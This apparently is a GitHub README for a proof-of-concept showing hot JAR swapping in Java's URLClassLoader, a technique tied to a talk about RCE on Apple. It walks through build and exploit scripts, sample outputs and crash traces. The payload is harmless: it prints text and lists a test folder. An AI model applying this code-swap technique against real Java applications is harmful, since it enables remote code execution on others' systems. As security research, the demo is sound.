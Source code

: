 # URLClassLoader hot jar swapping

The following example code shows the ability to hot jar swap an already loaded JAR-file.

Tested on MacOS with OpenJDK (And also exploited on Apple's Author publisher using Transporter).

Demo from Frans Rosén's talk "Story of a RCE on Apple through hot jar swapping" from NahamCon 2022 EU.

## How to run

### `build-and-run.sh`

You run it with:

```
./build-and-run.sh
```

This will:

```
Compile HelloWorld/*.java into HelloWorld.jar
Compile Bootstrapper/*.java into Bootstrapper.jar
Make a copy of HelloWorld.jar into OrigHelloWorld.jar
Run Bootstrapper.jar
```

Bootstrapper will load and run the `HelloWorld.Main`-class using URLClassLoader and will prompt you to run the method `hello` from the `HelloWorld.Secondary`-class that has also already been loaded. This is to control when to replace the JAR that has already been loaded.

```
$ ./build-and-run.sh 
Hello from Main-class
Click enter when you want to trigger the secondary class method
(run ./exploit.sh to replace JAR)
```

You can now decide if you want to click enter without replacing any JAR, this will show the proper code flow from `HelloWorld/Secondary.java`:

```
Hello from secondary class, here are all files in testdir/

testdir/hej
testdir/hej123

This is from the legit postVisitDirectory function:
testdir

End of run, goodbye
```

### `exploit.sh`

The `exploit.sh` will:

```
Compile Exploit/HelloWorld/*.java and move *.class files over to BuildDirForExploit/
Compile a exploit.jar from BuildDirForExploit/-dir
Compare the exploit.jar and OrigHelloWorld.jar using unzip -lv
Tell you if there's a diff or not based on size, compression rate and compression size
Copy exploit.jar over the existing HelloWorld.jar regardless if there's a difference or not
```

If you want to test the hot JAR swapping, run the `exploit.sh` in a different window after you run but before you click enter when calling `build-and-run.sh`:

```
$ ./build-and-run.sh 
Hello from Main-class
Click enter when you want to trigger the secondary class method
(run ./exploit.sh to replace JAR)

## Run this in a different terminal:

$ ./exploit.sh 

NO DIFF IN COMPRESSION, EXPLOIT WILL SUCCEED

-rw-r--r--  1 frans  staff  2281 Dec  9 13:20 rce.jar
-rw-r--r--@ 1 frans  staff  2281 Dec  9 13:20 ../HelloWorld.jar

## Now click enter in the other tab to complete the ./build-and-run.sh)
```

If you now click enter on `./build-and-run.sh` you should successfully see the replaced code instead:

```
Hello from secondary class, here are all files in testdir/

testdir/hej
testdir/hej123
AAAAAAAFGFFFFAAAGAAAAFAAAAAFFFFFAAAFA different code
testdir

End of run, goodbye
```

Showing that we can abuse the fact that inner/anonymous-classes are still being loaded from the physical JAR-file even if the URLClassLoader has already loaded the JAR from before we replaced it.

## Explanation

The anonymous class from the file `Exploit/HelloWorld/Secondary.java` compiles into the inner class `Exploit/HelloWorld/Secondary$1.class` which has the same size and compression rate as when `HelloWorld/Secondary.java` gets compiled and compressed. If the size or compression rate would differ, you would get a crash when clicking enter in `build-and-run.sh`.
So if you would change `Exploit/HelloWorld/Secondary.java` to for example (`functionn` instead of `function:`):

```
          public FileVisitResult postVisitDirectory(Path dir, IOException exc) throws IOException {
            System.out.println("\nThis is from the legit postVisitDirectory functionn");
            System.out.println(dir);
            return FileVisitResult.CONTINUE;
          }
```

Where the compression result is the same but the compression rate is wrong:

```
$ ./exploit.sh 
6c6
< 1430 643 55% HelloWorld/Secondary$1.class
---
> 1430 644 55% HelloWorld/Secondary$1.class
DIFF IN COMP, EXPLOIT WILL CRASH
-rw-r--r--  1 frans  staff  2280 Dec  9 13:44 exploit.jar
-rw-r--r--@ 1 frans  staff  2281 Dec  9 13:44 ../HelloWorld.jar
```

you would see:

```
Hello from Main-class
Click enter when you want to trigger the secondary class method
(run ./exploit.sh to replace JAR)

Hello from secondary class, here are all files in testdir/

Exception in thread "main" java.lang.reflect.InvocationTargetException
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at Bootstrapper.Main.main(Main.java:38)
Caused by: java.lang.NoClassDefFoundError: HelloWorld/Secondary$1
	at HelloWorld.Secondary.hello(Secondary.java:11)
	... 5 more
Caused by: java.lang.ClassNotFoundException: HelloWorld.Secondary$1
	at java.net.URLClassLoader.findClass(URLClassLoader.java:387)
	at java.lang.ClassLoader.loadClass(ClassLoader.java:418)
	at java.lang.ClassLoader.loadClass(ClassLoader.java:351)
	... 6 more
```

On OpenJDK it seems like if the original size differ but the compression size is the same it still works:

```
          public FileVisitResult postVisitDirectory(Path dir, IOException exc) throws IOException {
            System.out.println("AAAADDAAAAAAAAAFFAAAAAAAAAAAAAFFAAAAGGAAGGAAAGPTAAFPFAFPAPA");
            System.out.println(dir);
            return FileVisitResult.CONTINUE;
          }
```

```
$ ./exploit.sh 
6c6
< 1437 644 55% HelloWorld/Secondary$1.class
---
> 1430 644 55% HelloWorld/Secondary$1.class
9c9
< 2895 45% 5
---
> 2888 45% 5
DIFF IN COMP, EXPLOIT WILL CRASH
-rw-r--r--  1 frans  staff  2281 Dec  9 13:52 exploit.jar
-rw-r--r--@ 1 frans  staff  2282 Dec  9 13:52 ../HelloWorld.jar
```

```
Hello from secondary class, here are all files in testdir/

testdir/hej
testdir/hej123
AAAADDAAAAAAAAAFFAAAAAAAAAAAAAFFAAAAGGAAGGAAAGPTAAFPFAFPAPA
testdir
```

The `exploit.sh` will still say it's a difference as it might not work in all versions.

You will also see that if you change things in `Exploit/HelloWorld/Secondary.java` outside of the inner-class, such as:

```
System.out.println("\nEnd of run, goodbye");
```

into:

```
System.out.println("\nEnd of run, goodbya");
```

which will make the `Secondary.class` be the same compression rate and size, it will still not trigger the replaced content, since the class is already loaded by URLClassLoader, confirming that this is only affecting inner-classes (the ones named `$1.class` in the JAR) since they are loaded from the JAR-file when used:

```
End of run, goodbye
```